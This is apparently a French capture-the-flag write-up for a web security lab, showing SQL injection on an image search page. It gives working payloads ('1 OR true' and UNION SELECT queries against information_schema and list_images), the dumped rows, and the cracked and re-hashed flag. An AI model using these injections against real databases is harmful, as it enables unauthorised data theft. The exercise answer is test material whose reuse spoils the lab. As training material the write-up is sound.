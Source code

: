Injection SQL IMAGE NUMBER

Dans l'onglet SEARCH IMAGE : http://IP/?page=searchimg

En tapant la commande SQL '1 OR true'

Nous pouvons voir toutes les listes_images créé :

ID: 1 OR TRUE 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 1 OR TRUE 
Title: 42 !
Url : https://fr.wikipedia.org/wiki/Fichier:42

ID: 1 OR TRUE 
Title: Google
Url : https://fr.wikipedia.org/wiki/Logo_de_Go

ID: 1 OR TRUE 
Title: Earth
Url : https://en.wikipedia.org/wiki/Earth#/med

ID: 1 OR TRUE 
Title: Hack me ?
Url : borntosec.ddns.net/images.png

Nous allons faire la commande SQL suivantes pour afficher toutes les tables et colonnes associé '1 UNION SELECT table_name, column_name FROM information_schema.columns'

On va s'intéresser à la table 'list_images' :

LIST_IMAGES(id, url, title, comment)

Nous allons afficher les valeurs de title et comment grâce à la commande SQL '1 UNION SELECT comment, title FROM list_images'

Ce qui nous donne les valeurs suivantes :

Title: Hack me ?
Url : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

Si on déchiffre le code 1928e8083cf461a51303633093573c46 en MD5 on obtient albatroz, et si on le chiffre en SHA256 on obtient : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
